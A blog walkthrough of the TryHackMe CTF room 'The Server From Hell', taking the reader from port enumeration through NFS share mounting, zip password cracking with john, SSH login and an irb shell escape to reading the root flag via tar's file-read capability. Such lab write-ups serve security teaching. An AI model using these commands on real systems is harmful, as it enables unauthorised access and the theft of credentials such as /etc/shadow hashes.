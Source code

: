 ```yaml
---
layout: post
title:  "THM: The Server From Hell"
date:   2020-11-03 21:00:00 +1100
category: hacking
---
```


## Introduction
*Face a server that feels as if it was configured and deployed by Satan himself. Can you escalate to root?.*

This is [The Server from Hell](https://tryhackme.com/room/theserverfromhell) from TryHackMe. 

The only instruction says:
>Start at port 1337 and enumerate your way.

I started an nmap scan but there was port spoofing turned on so I quickly cancelled it.

## 1337
nmap on port 1337 says:
>PORT     STATE SERVICE VERSION  
1337/tcp open  waste?  
| fingerprint-strings:   
|   NULL:   
|     Welcome traveller, to the beginning of your journey  
|     begin, find the trollface  
|     Legend says he's hiding in the first 100 ports  
|_    printing the banners from the ports  

So I run a command to get the banners from the first 100 ports:

``
root@kali:/opt/tryhackme/hellserver# nmap -p1-100 -sV --script=banner 10.10.179.4
``

In amongst the nonsense I notice this:
>21/tcp  open  ftp?  
| banner: 550 12345 0f7000f800770008777 go to port 12345 80008f7f700880cf


## 12345
In the browser at port 12345 we get this message:
>NFS shares are cool, especially when they are misconfigured  
It's on the standard port, no need for another scan

## NFS
We can mount the share and download the contents - a zip file. It's password protected but John handles it easily:

{% highlight shell %}
root@kali:/opt/tryhackme/hellserver# mount -t nfs 10.10.179.4:/ mountpoint/
root@kali:/opt/tryhackme/hellserver/mountpoint/home/nfs# cp backup.zip /opt/tryhackme/hellserver/backup.zip

root@kali:/opt/tryhackme/hellserver# zip2john backup.zip > backup.john
backup.zip/home/hades/.ssh/ is not encrypted!
ver 1.0 backup.zip/home/hades/.ssh/ is not encrypted, or stored with non-handled compression type
ver 2.0 efh 5455 efh 7875 backup.zip/home/hades/.ssh/id_rsa PKZIP Encr: 2b chk, TS_chk, cmplen=2107, decmplen=3369, crc=6F72D66B
ver 1.0 efh 5455 efh 7875 backup.zip/home/hades/.ssh/hint.txt PKZIP Encr: 2b chk, TS_chk, cmplen=22, decmplen=10, crc=F51A7381
ver 2.0 efh 5455 efh 7875 backup.zip/home/hades/.ssh/authorized_keys PKZIP Encr: 2b chk, TS_chk, cmplen=602, decmplen=736, crc=1C4C509B
ver 1.0 efh 5455 efh 7875 backup.zip/home/hades/.ssh/flag.txt PKZIP Encr: 2b chk, TS_chk, cmplen=45, decmplen=33, crc=2F9682FA
ver 2.0 efh 5455 efh 7875 backup.zip/home/hades/.ssh/id_rsa.pub PKZIP Encr: 2b chk, TS_chk, cmplen=602, decmplen=736, crc=1C4C509B
NOTE: It is assumed that all files in each archive have the same password.
If that is not the case, the hash may be uncrackable. To avoid this, use
option -o to pick a file at a time.
root@kali:/opt/tryhackme/hellserver# john backup.john -w=/usr/share/wordlists/rockyou.txt

Loaded 1 password hash (PKZIP [32/64])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
zxcvbnm          (backup.zip)
1g 0:00:00:00 DONE (2020-11-03 07:41) 10.00g/s 81920p/s 81920c/s 81920C/s 123456..total90
Use the "--show" option to display all of the cracked passwords reliably
Session completed
{% endhighlight %}

Right, so we got some SSH keys, a hint and a flag. The hint just says:
>2500-4500

Presumably we need to identify the correct port for SSH.

## SSH
I run this nmap scan:

``
root@kali:/opt/tryhackme/hellserver# nmap -T4 -p2500-4500 -sV -sC 10.10.179.4 -oA nmap/tcp_ssh_search
``

It takes quite a while, but when it's done I grep the results for SSH and find the port - 3333.

>root@kali:/opt/tryhackme/hellserver/nmap# cat tcp_ssh_search.nmap | grep ssh  
3333/tcp open     ssh                 OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)  
| ssh-hostkey: 

Then I can log in as *hades*

``
root@kali:/opt/tryhackme/hellserver# ssh -p 3333 -i home/hades/.ssh/id_rsa hades@10.10.179.4
``

## irb
We're in a shell which I haven't seen before - the prompt is **irb**. Google tells me it's *interactive ruby*. I lookup how to list and read files to get user.txt:

{% highlight shell %}
irb(main):002:0> Dir.entries(".")
=> ["..", ".bashrc", ".ssh", "user.txt", ".", ".profile", ".bash_logout"]
irb(main):003:0> txt = File.open("user.txt")
=> #<File:user.txt>
irb(main):004:0> puts txt.read()
thm{sh3ll_3c4p3_15_v3ry_1337}
{% endhighlight %}

That's all well and good but let's [get out](https://fireshellsecurity.team/restricted-linux-shell-escaping-techniques/):

``
irb(main):006:0> exec '/bin/bash'
``

And we have a normal bash shell.

## Privesc, of sorts
I ran linpeas and it said that *tar* had the capability *CAP_DAC_READ_SEARCH* which can *Bypass file read permission checks and directory read and execute permission checks*. So we can read the root flag with that (per [GTFOBins](https://gtfobins.github.io/gtfobins/tar/)):

``
tar xf "/root/root.txt" -I '/bin/sh -c "cat 1>&2"'
``

And that gets the flag but it doesn't make us root. I also read */etc/shadow* and grabbed the hash so maybe that could be broken - I didn't try. I checked a couple of other people's writeups at this point to see if any of them had a way to use *tar* to actually become root, but none of them had - they all just read the flag like I did. So I guess it's done.
